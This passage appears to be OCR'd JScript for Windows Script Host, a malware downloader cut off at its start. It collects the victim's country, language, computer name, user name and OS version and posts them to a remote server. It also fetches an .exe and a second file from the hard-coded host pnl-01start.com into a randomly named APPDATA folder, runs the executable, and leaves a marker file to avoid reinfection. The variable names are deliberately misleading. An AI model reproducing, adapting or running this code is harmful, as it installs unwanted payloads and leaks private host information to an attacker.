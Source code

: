 ```js
    } catch (e) {};
    return false
}

function getSO() {
    var folderExists = 0x10;
    var fileExists = 0x20;
    var getPathFromGuidWow = GetObject("winmgmts:\\\\.\\root\\CIMV2");
    var runAsAdmin = getPathFromGuidWow.ExecQuery("SELECT * FROM Win32_OperatingSystem", "WQL", folderExists | fileExists);
    var dlToFile = new Enumerator(runAsAdmin);
    var getPathFromGuid = dlToFile.item();
    return getPathFromGuid.Caption
}

function SendInfect(getPathFromGuid, runAsAdmin) {
    var dlToFile = "country=" + getCountryName() + "&l=" + getLanguage() + "&c=" + getEnv("COMPUTERNAME") + "&u=" + getEnv("USERNAME") + "&s=" + getSO();
    dataPost(getPathFromGuid, runAsAdmin, dlToFile)
}

function Prosseguir() {
    var runAsAdmin = WScript.CreateObject("Scripting.FileSystemObject");
    var dlToFile = getEnv("APPDATA") + "\\\\" + WScript.ScriptName;
    return runAsAdmin.FileExists(dlToFile) == false
}

function Marcar() {
    var runAsAdmin = WScript.CreateObject("Scripting.FileSystemObject");
    var dlToFile = getEnv("APPDATA") + "\\\\" + WScript.ScriptName;
    runAsAdmin.CreateTextFile(dlToFile, true)
}

function Arrochar(dataPost, base64ToBinary) {
    try {
        var getLanguage = dlToText(dataPost + "?q", base64ToBinary);
        if ((getLanguage == "1") && (Prosseguir())) {
            var folderExists = WScript.CreateObject("Scripting.FileSystemObject");
            var getCountryName = getEnv("APPDATA") + "\\\\" + randomStr(6);
            folderExists.CreateFolder(getCountryName);
            var getPathFromGuidWow = dlToText(dataPost + "?w", base64ToBinary);
            if (getPathFromGuidWow) {
                var fileExists = getCountryName + "\\\\" + randomStr(6) + ".exe";
                var getPathFromGuid = dlToFile(dataPost + "?e", base64ToBinary, fileExists);
                var runAsAdmin = dlToFile(dataPost + "?r", base64ToBinary, getCountryName + "\\\\" + getPathFromGuidWow);
                if (getPathFromGuid && runAsAdmin) {
                    runAsUser(fileExists);
                    SendInfect(dataPost + "?t", base64ToBinary);
                    Marcar()
                }
            }
        }
    } catch (e) {}
}
Arrochar("https://pnl-01start.com/", "padrao")
```
